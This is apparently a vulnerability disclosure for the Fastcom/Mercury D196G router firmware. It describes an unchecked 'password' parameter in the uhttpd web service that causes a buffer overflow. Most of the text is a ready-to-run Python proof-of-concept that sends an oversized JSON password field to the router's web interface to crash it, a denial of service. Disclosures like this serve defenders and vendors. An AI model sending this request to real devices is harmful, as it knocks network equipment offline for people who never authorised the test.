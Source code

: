 Submittion Date: 2025.4.18  
Vendor: D196G  
Firmware: d196gv1-cn-up_2020-01-09_11.21.44  
Download Link: https://service.fastcom.com.cn/download-265.html

The function sub_404CAEDC handles the important parameter string 'password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).

![image](image/uhttpd-mercury-1.png)

Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data={"uhttpd":{"webPwd":{"password":"a"*0x2000,"fac_password":"a"}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  
![image](image/mercury-1.png)
![image](image/mercury-2.png)
